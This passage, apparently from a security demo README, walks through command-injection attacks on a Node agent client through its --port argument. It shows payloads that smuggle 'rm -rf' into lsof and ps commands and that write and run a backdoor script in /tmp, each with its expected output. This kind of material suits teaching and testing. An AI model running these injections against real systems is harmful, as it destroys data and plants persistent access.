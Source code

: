 ### Step 3: Verify Attack Success
```bash
# Check for attack artifacts
ls -la /tmp/owned
cat /tmp/owned
```

## 🚨 Attack 2: Chain Exploitation

### Step 1: Chain Attack Execution
```bash
# Execute chain exploitation attack
node server/agent_client.js --port="8080; echo '123; rm -rf /tmp/demo; #' #"
```

**Attack Analysis:**
- **Payload:** `8080; echo '123; rm -rf /tmp/demo; #' #`
- **First Command:** `lsof -t -i tcp:8080; echo '123; rm -rf /tmp/demo; #' #`
- **Second Command:** `ps -p 123; rm -rf /tmp/demo; # -o comm=`
- **Effect:** First command's output (`123`) becomes input for second command, triggering destructive action

**Expected Output:**
```
🚨 [ATTACK] CI/CD Bot executing chain exploitation...
📝 Payload: 8080; echo '123; rm -rf /tmp/demo; #' #
⚠️  [ATTACK] Chain exploitation executed
📋 Response: Error checking port 8080: No such process

🔍 [SIDE EFFECTS] Checking for chain_exploit side effects...
⚠️  [SIDE EFFECT] Found: /tmp/demo directory removed
```

### Step 2: Verify Chain Attack
```bash
# Check if demo directory was removed
ls -la /tmp/demo
# Should show "No such file or directory"
```

## 🚨 Attack 3: Backdoor Creation

### Step 1: Backdoor Attack Execution
```bash
# Execute backdoor attack
node server/agent_client.js --port="8080; echo '#!/bin/bash' > /tmp/back.sh && echo 'echo \"Backdoor activated\"' >> /tmp/back.sh && chmod +x /tmp/back.sh && /tmp/back.sh; #"
```

**Attack Analysis:**
- **Payload:** Creates executable backdoor script
- **Effect:** Establishes persistent access mechanism
- **Persistence:** Backdoor remains after attack
